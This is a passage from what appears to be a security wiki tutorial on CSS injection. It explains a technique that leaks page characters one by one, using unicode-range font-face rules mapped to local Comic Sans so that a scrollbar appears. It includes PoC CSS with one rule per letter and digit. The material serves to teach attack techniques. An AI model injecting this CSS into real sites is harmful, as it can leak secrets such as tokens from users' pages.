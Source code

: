 **C**\
ADB

**CA**\
DB

**CAD**\
B

**CADB**

When a new char goes to the first line, the **unicode-range trick is used to detect the new character in the prefix**. This detection is made changing the font to Comic Sans, which its heigth is superior so a **vertical scrollbar is triggered** (leaking the char value). This way we can leak every different character one time. **We can detect if a character is repated but not what character is repeated**.

{% hint style="info" %}
Basically, the **unicode-range is used to detect a char**, but as we don't want to load an external font, we need to find another way.\
When the **char** is **found**, it's **given** the pre-installed **Comic Sans font**, which **makes** the char **bigger** and **triggers a scroll bar** which will **leak the found char**.
{% endhint %}

Check the code extracted from the PoC:

```css
/* comic sans is high (lol) and causes a vertical overflow */
@font-face{font-family:has_A;src:local('Comic Sans MS');unicode-range:U+41;font-style:monospace;}
@font-face{font-family:has_B;src:local('Comic Sans MS');unicode-range:U+42;font-style:monospace;}
@font-face{font-family:has_C;src:local('Comic Sans MS');unicode-range:U+43;font-style:monospace;}
@font-face{font-family:has_D;src:local('Comic Sans MS');unicode-range:U+44;font-style:monospace;}
@font-face{font-family:has_E;src:local('Comic Sans MS');unicode-range:U+45;font-style:monospace;}
@font-face{font-family:has_F;src:local('Comic Sans MS');unicode-range:U+46;font-style:monospace;}
@font-face{font-family:has_G;src:local('Comic Sans MS');unicode-range:U+47;font-style:monospace;}
@font-face{font-family:has_H;src:local('Comic Sans MS');unicode-range:U+48;font-style:monospace;}
@font-face{font-family:has_I;src:local('Comic Sans MS');unicode-range:U+49;font-style:monospace;}
@font-face{font-family:has_J;src:local('Comic Sans MS');unicode-range:U+4a;font-style:monospace;}
@font-face{font-family:has_K;src:local('Comic Sans MS');unicode-range:U+4b;font-style:monospace;}
@font-face{font-family:has_L;src:local('Comic Sans MS');unicode-range:U+4c;font-style:monospace;}
@font-face{font-family:has_M;src:local('Comic Sans MS');unicode-range:U+4d;font-style:monospace;}
@font-face{font-family:has_N;src:local('Comic Sans MS');unicode-range:U+4e;font-style:monospace;}
@font-face{font-family:has_O;src:local('Comic Sans MS');unicode-range:U+4f;font-style:monospace;}
@font-face{font-family:has_P;src:local('Comic Sans MS');unicode-range:U+50;font-style:monospace;}
@font-face{font-family:has_Q;src:local('Comic Sans MS');unicode-range:U+51;font-style:monospace;}
@font-face{font-family:has_R;src:local('Comic Sans MS');unicode-range:U+52;font-style:monospace;}
@font-face{font-family:has_S;src:local('Comic Sans MS');unicode-range:U+53;font-style:monospace;}
@font-face{font-family:has_T;src:local('Comic Sans MS');unicode-range:U+54;font-style:monospace;}
@font-face{font-family:has_U;src:local('Comic Sans MS');unicode-range:U+55;font-style:monospace;}
@font-face{font-family:has_V;src:local('Comic Sans MS');unicode-range:U+56;font-style:monospace;}
@font-face{font-family:has_W;src:local('Comic Sans MS');unicode-range:U+57;font-style:monospace;}
@font-face{font-family:has_X;src:local('Comic Sans MS');unicode-range:U+58;font-style:monospace;}
@font-face{font-family:has_Y;src:local('Comic Sans MS');unicode-range:U+59;font-style:monospace;}
@font-face{font-family:has_Z;src:local('Comic Sans MS');unicode-range:U+5a;font-style:monospace;}
@font-face{font-family:has_0;src:local('Comic Sans MS');unicode-range:U+30;font-style:monospace;}
@font-face{font-family:has_1;src:local('Comic Sans MS');unicode-range:U+31;font-style:monospace;}
@font-face{font-family:has_2;src:local('Comic Sans MS');unicode-range:U+32;font-style:monospace;}
@font-face{font-family:has_3;src:local('Comic Sans MS');unicode-range:U+33;font-style:monospace;}
@font-face{font-family:has_4;src:local('Comic Sans MS');unicode-range:U+34;font-style:monospace;}
@font-face{font-family:has_5;src:local('Comic Sans MS');unicode-range:U+35;font-style:monospace;}
@font-face{font-family:has_6;src:local('Comic Sans MS');unicode-range:U+36;font-style:monospace;}
@font-face{font-family:has_7;src:local('Comic Sans MS');unicode-range:U+37;font-style:monospace;}
@font-face{font-family:has_8;src:local('Comic Sans MS');unicode-range:U+38;font-style:monospace;}
@font-face{font-family:has_9;src:local('Comic Sans MS');unicode-range:U+39;font-style:monospace;}
@font-face{font-family:rest;src: local('Courier New');font-style:monospace;unicode-range:U+0-10FFFF}

```